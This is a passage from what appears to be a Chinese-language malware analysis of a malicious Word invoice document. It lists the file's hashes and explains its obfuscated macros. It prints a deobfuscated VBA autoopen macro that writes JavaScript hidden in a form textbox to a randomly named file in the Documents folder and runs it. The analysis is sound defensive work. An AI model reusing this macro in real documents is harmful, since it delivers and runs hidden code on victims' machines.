 ## 3 基本属性

在分析过程中，从新收集的恶意文档中发现使用PowerShell脚本的技术手段，此次是分析使用JS方式的恶意文档，基本信息如下表：

|文件名|INVOICE COPY REQUEST.doc
|------
|文件类型|Office Open XML Document
|文件大小|329.19 KB
|Magic|Zip archive data, at least v1.0 to extract
|MD5|6d17d8ff3d3247caa6a80e10e3b0dd12
|SHA-256|ed9b8afaa498f946a5aa4114b8a8d0d5a27ff46a1488af0cd46865660589051e
|SSDEEP|6144:ggLFYOH4zwjspGRcF0VmmiyrC3gbYMnHO6AK2Xn:ggLSOYzwjTRcJyrCM5HO66X
|是否使用宏|是

表2-1 文件基本信息



## 4 宏代码分析

查看（ALT+F11）使用的宏代码，有ThisDocument.cls、UserForm1.frx、NewMacros.bas三个文件，ThisDocument.cls使用了混淆技术混淆代码，定义了许多无用的变量，操作各变量运算，参杂在VBA代码里面，干扰分析，NewMacros.bas模块没有调用，且代码有错误。

[![](https://p3.ssl.qhimg.com/t016b3d7319109685d1.png)](https://p3.ssl.qhimg.com/t016b3d7319109685d1.png)

图4-1 宏代码文件

[![](https://p5.ssl.qhimg.com/t013fa2178fca5e56b8.png)](https://p5.ssl.qhimg.com/t013fa2178fca5e56b8.png)

图4-2部分混淆宏代码

去除混淆代码，简洁到十来行了。交给VBA代码的任务就是，获取嵌入在文本框的JS代码，随机JS文件名保存到” C:Users&lt;用户名&gt; Documents”目录下，然后运行。VBA代码详解如下：

```
Sub autoopen()                                    ‘启用宏后自动执行
    nsduisdisdu3                                  ’调用nsduisdisdu3函数
End Sub
Sub nsduisdisdu3()
    Randomize                                             ’随机数
    Set Ws = CreateObject("WScript.Shell")                ’创建WScript.Shell对象
    ipath = Ws.SpecialFolders("MyDocuments")              ‘获取MyDocuments文档路径
    wgregrgeg43hg3g34g43 = UserForm1.TextBox1.Value       ‘获取窗体文本框文本
    egegergg4g33g443g43g3g = ipath &amp; Chr(92) &amp; Rnd &amp; ".js"‘保存JS路径，JS文件名随机定义
    Open egegergg4g33g443g43g3g For Output As #96         ‘把文本框文本写入JS文件
    Print #96, wgregrgeg43hg3g34g43
    Close #96
    runFile egegergg4g33g443g43g3g                        ’调用runFile函数
End Sub
Sub runFile(runFile)
    Set fffffffffffffffffffffff3 = CreateObject("Shell.Application")’创建Shell.Application对象
    fffffffffffffffffffffff3.ShellExecute runFile                   ’运行JS文件
End Sub
```
